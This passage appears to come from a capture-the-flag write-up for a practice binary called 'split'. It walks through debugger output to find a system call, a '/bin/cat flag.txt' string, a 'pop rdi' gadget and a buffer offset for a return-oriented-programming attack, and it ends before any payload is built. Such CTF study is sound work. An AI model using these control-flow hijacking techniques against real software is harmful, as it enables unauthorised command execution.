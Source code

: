 * There is a function called `usefulFunction`. Let's disassemble it and see how useful it is.

### usefulFunction()

```
pwndbg> disassemble usefulFunction
Dump of assembler code for function usefulFunction:
   0x0000000000400742 <+0>:     push   rbp
   0x0000000000400743 <+1>:     mov    rbp,rsp
   0x0000000000400746 <+4>:     mov    edi,0x40084a
   0x000000000040074b <+9>:     call   0x400560 <system@plt>
   0x0000000000400750 <+14>:    nop
   0x0000000000400751 <+15>:    pop    rbp
   0x0000000000400752 <+16>:    ret
End of assembler dump.
```

* We can see that the instruction at `usefulFunction+9` makes a system call and that the instruction at `usefulFunction+4` loads the argument.

```
pwndbg> x/s 0x40084a
0x40084a:       "/bin/ls"
```

* So this system call executes `/bin/ls` which isn't what we want. We want it to execute `/bin/cat flag.txt`.

### /bin/cat flag.txt

* Let's search the string `/bin/cat flag.txt`.

```
pwndbg> search /bin/cat
Searching for value: '/bin/cat'
split           0x601060 '/bin/cat flag.txt'
```

* We can link this string with our system call in order to read the `flag.txt` file.
* In order to put this string into `rdi`, we will need a `pop rdi` gadget.

### pop rdi gadget

* We can find the gadget using the `ROPgadget` utility.

```
$ ROPgadget --binary split | grep "pop rdi"
0x00000000004007c3 : pop rdi ; ret
```

* We can see that the address of the `pop rdi` gadget is `0x00000000004007c3`.

### Cyclic pattern

* We now have to find the offset using a cyclic pattern.

```
pwndbg> cyclic
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```
